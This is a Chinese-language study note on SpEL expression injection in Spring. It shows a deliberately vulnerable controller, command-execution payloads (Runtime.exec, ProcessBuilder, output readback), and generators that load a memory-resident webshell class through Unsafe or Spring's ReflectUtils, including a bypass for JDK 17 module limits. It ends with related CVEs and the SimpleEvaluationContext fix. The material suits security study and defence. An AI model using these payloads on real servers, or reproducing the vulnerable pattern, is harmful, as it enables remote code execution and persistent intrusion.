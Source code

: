 # 0x01 What Is SpEL

SpEL：Spring Expression Language 一种表达式语言，支持在运行时查询和操作对象图，类似于EL表达式。

SpEL 的诞生是为了给 Spring 社区提供一种能够与Spring 生态系统所有产品无缝对接，能提供一站式支持的表达式语言。

SpEL基本语法：
SpEL使用 `#{...}`作为定界符，大括号内被视为SpEL表达式，里面可以使用运算符，变量，调用方法等。使用 `T()` 运算符会调用类作用域的方法和常量，如`#{T(java.lang.Math)}`返回一个java.lang.Math类对象

`#{}`和`${}`的区别：

* `#{}` 用于执行SpEl表达式，并将内容赋值给属性
* `${}` 主要用于加载外部属性文件中的值

SpEL常用在三个地方。

1. Value注解
   （注：这个类要通过依赖注入才能使Value注解生效，直接new对象是不行的）

   ```java
   package com.example.demo1.bean;
   
   import org.springframework.beans.factory.annotation.Value;
   import org.springframework.context.annotation.PropertySource;
   import org.springframework.stereotype.Component;
   
   @Component
   @PropertySource({"classpath:/configure.properties"})
   public class User {
       @Value("${spring.user.name}")
       public String userName; // 值来自application.properties
       @Value("${home.dorm}")
       public String address; // 值来自configure.properties(放在resources文件夹下)
       @Value("#{T(java.lang.Math).random()}")
       public double age;
       @Value("#{systemProperties['os.name']}")
       public String sys; // 注入操作系统属性
   }
   ```

   ```xml
   // configure.properties
   home.dorm=Room402,Unit4,Building3,No.34.LousyLoad
   // application.properti
   spring.user.name=Taco
   ```

   输出如下：
   `User{userName='Taco', address='Room402,Unit4,Building3,No.34.LousyLoad', age=0.5913714334107036, sys='Windows 10'}`

2. XML

   ```xml
   <bean id="Book" class="com.example.bean">
   	<property name="author" value="#{表达式}">
   </bean>
   ```

3. Expression接口

   ```java
   @Test
   public void spelTest() {
       ExpressionParser parser = new SpelExpressionParser();
       Expression expression = parser.parseExpression("('Hello '+'SpEL').concat(#end)");
       EvaluationContext context = new StandardEvaluationContext();
       context.setVariable("end", "!");
       System.out.println(expression.getValue(context));
   }
   ```

   输出`Hello SpEL!`

# 0x02 Way To Attack

实际情况下，一般都是基于上面第三种SpEL的使用场景出现的漏洞。
下面简单分析一下SpEL在求表达式值的过程

> 1.创建解析器 new SpelExpressionParser()
> 2.解析表达式 parseExpression(your_expression)
> 3.构造上下文 new StandardEvaluationContext() 默认为这个
> 4.求值 expression.getValue(context)

漏洞利用前提

> 1.服务器接收用户输入的表达式
> 2.表达式解析之后调用了getValue
> 3.使用StandardEvaluationContext作为上下文对象

```java
@RestController
public class SpELController {
    @GetMapping("spel")
    public String spel(@RequestParam(name="cmd")String cmd) {
        System.out.println("Hello SpEL!!!");
        ExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(cmd);
        Object obj = expression.getValue();
        return obj.toString();
    }
}
```

这段代码中，可注入的点在请求参数cmd
访问`http://localhost:8080/spel?cmd=T(java.lang.Runtime).getRuntime().exec(%27calc%27)`
成功弹出计算器

# 0x03 Injection Tricks

一些trivial的payload

```java
new java.lang.ProcessBuilder(new String[]{"caslc"}).start()
```

```java
T(java.lang.Runtime).getRuntime().exec("calc")
```

命令执行带返回结果的：

```java
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("whoami").start().getInputStream())).readLine()
```

```java
new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("whoami").getInputStream(), "GBK").useDelimiter("xxx").next()
```

利用js引擎可以实现更加复杂的操作，如注入内存马

```java
public static void main(String[] args) throws Exception {
    byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
    String s = Base64.getEncoder().encodeToString(bytes);
    String cmd = "T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(\"" + makeJsDefinedClass("EvilInterceptor", s) + "\")";
    System.out.println(cmd);
}

public static String makeJsDefinedClass(String classname, String encoded) {
    return "var data = '" + encoded + "';" +
        "var bytes = java.util.Base64.getDecoder().decode(data);" +
        "var cls = java.lang.Class.forName('sun.nio.ch.Util');" +
        "var method = cls.getDeclaredMethod('unsafe');" +
        "method.setAccessible(true);" +
        "var unsafe = method.invoke(cls);" +
        "var classLoader = java.lang.Thread.currentThread().getContextClassLoader();" +
        "var evil = unsafe.defineClass('" + classname + "', bytes, 0, bytes.length, classLoader, null);" +
        "evil.newInstance();";
}
```

这里利用的是`Unsafe`去`defineClass`加载字节码

实际上Spring框架中`org.springframework.cglib.core.ReflectUtils`就提供了一系列反射有关的方法，其中就包括了字节码加载`defineClass`。

```java
byte[] bytes = ClassPool.getDefault().get("EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('EvilInterceptor',T(org.springframework.util.Base64Utils).decodeFromString('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader()).newInstance()";
System.out.println(cmd);
```

高版本JDK（>=9）引入了命名模块机制，`java.*`下的非公开变量和方法不能被其他模块直接访问，JDK11还只会提示warning，而在JDK17中会强制开启，直接报错

上面的payload执行后会报错

> java.lang.reflect.InaccessibleObjectException: Unable to make protected final java.lang.Class java.lang.ClassLoader.defineClass(java.lang.String,byte[],int,int,java.security.ProtectionDomain) throws java.lang.ClassFormatError accessible: module java.base does not "opens java.lang" to unnamed module @635eaaf1

![image-20240517132913363](./../.gitbook/assets/image-20240517132913363.png)

`java.lang.ClassLoader#defineClass`不是公开方法，无法被其他模块访问

当然Spring也提供了相应的解决方案，就是利用方法句柄的API来定义类

```java
// Preferred option: JDK 9+ Lookup.defineClass API if ClassLoader matches
if (contextClass != null && contextClass.getClassLoader() == loader &&
    privateLookupInMethod != null && lookupDefineClassMethod != null) {
    try {
        MethodHandles.Lookup lookup = (MethodHandles.Lookup)
            privateLookupInMethod.invoke(null, contextClass, MethodHandles.lookup());
        c = (Class) lookupDefineClassMethod.invoke(lookup, b);
    } // ...
}
```

但`MethodHandles$Lookup#defineClass`（JDK8中没有这个方法）要求定义的类需要和`Lookup`对象的目标类的`package`一致才行。这里的目标类就是传入`ReflectionUtils#defineClass`的上下文类`contextClass`。

随便选了`org.springframework.expression`下的一个类`ExpressionParser`

```java
byte[] bytes = ClassPool.getDefault().get("org.springframework.expression.EvilInterceptor").toBytecode();
String s = Base64.getEncoder().encodeToString(bytes);
String cmd = "T(org.springframework.cglib.core.ReflectUtils).defineClass('org.springframework.expression.EvilInterceptor',T(java.util.Base64).getDecoder().decode('" + s + "'),T(java.lang.Thread).currentThread().getContextClassLoader(), null, T(java.lang.Class).forName('org.springframework.expression.ExpressionParser'))";
System.out.println(cmd);
```

# 0x04 CVE To Study

* CVE-2022-22980 Spring Data MongoDB SpEL表达式注入
* CVE-2022-22963 SpringCloud Function SpEL表达式注入
* CVE-2022-22947 Spring Cloud Gateway 远程代码执行

# 0x05 Patch

`SimpleEvaluationContext`、`StandardEvaluationContext` 是 SpEL提供的两个 `EvaluationContext`

`SimpleEvaluationContext` 旨在仅支持 SpEL 语言语法的一个子集。它不包括 Java 类型引用，构造函数和 bean 引用

用`SimpleEvaluationContext`替换默认的`StandardEvaluationContext`，就能有效防止恶意SpEL表达式的执行。

